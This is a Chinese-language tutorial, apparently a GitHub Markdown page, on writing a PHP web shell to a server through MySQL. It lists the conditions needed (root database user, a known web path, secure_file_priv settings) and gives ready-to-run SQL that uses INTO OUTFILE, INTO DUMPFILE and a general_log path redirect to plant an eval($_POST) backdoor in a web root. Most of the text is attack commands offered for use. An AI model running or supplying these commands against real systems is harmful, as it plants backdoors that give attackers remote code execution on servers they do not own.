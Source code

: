 * Root数据库用户（root权限）
* 网站绝对路径（确定有写入权限）
* magic_quotes_gpc：Off（关闭）

**导出WebShell其它条件：**

* magic_quotes_gpc：开启时，会对'单引号进行转义，使其变成“\”反斜杠。
* secure_file_priv：此配置项用来完成对数据导入导出的限制，如允许导入导出到指定目录。
* file_priv：file_priv权限允许你用load_file、into outfile读和写服务器上的文件，任何被授予这个权限的用户都能读和写服务器的任何文件。

**写入权限**
查看能否自定义导出文件目录的权限

`SHOW VARIABLES LIKE "secure_file_priv";`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/1541693041317.png)

如果值为文件夹目录，则只允许修改目录下的文件，如果值为`NULL`则为禁止。
并且这个值是只读变量，只能通过配置文件修改。


```
show global variables like "%secure%";      //查询secure_file_priv配置
secure_file_prive=null              //不允许导入导出数据到目录
secure_file_priv=c:\90sec            //允许导入导出数据到指定目录
secure_file_priv=''              //允许导入导出数据到任意目录
secure_file_priv="/"              //允许导入导出数据到任意目录
```
注：
在`my.ini`、`my.cnf`、`mysqld.cnf`文件中找到`secure_file_prive`
并将其值设置为`""`或`"/"`，重启MySQL服务！

### 常规方法

**创建数据表导出shell**

```
CREATE TABLE `mysql`.`shadow9` (`content` TEXT NOT NULL );
INSERT INTO `mysql`.`shadow9` (`content` ) VALUES ('<?php @eval($_POST[pass]);?>');
SELECT `content` FROM `shadow9` INTO OUTFILE 'C:\\phpStudy\\WWW\\90sec.php';
DROP TABLE IF EXISTS `shadow9`;
```

 **一句话导出shell**

```
select '<?php @eval($_POST[pass]);?>' into outfile 'c:/phpstudy/www/90sec.php';  
select '<?php @eval($_POST[pass]);?>' into outfile 'c:\\phpstudy\\www\\90sec.php';
select '<?php @eval($_POST[pass]);?>' into dumpfile 'c:\\phpstudy\\www\\bypass.php';
```

**日志备份获取shell**

```
show global variables like "%genera%";          //查询general_log配置
set global general_log='on';              //开启general log模式
SET global general_log_file='D:/phpStudy/WWW/cmd.php';    //设置日志文件保存路径
SELECT '<?php phpinfo();?>';              //phpinfo()写入日志文件
set global general_log='off';              //关闭general_log模式
```

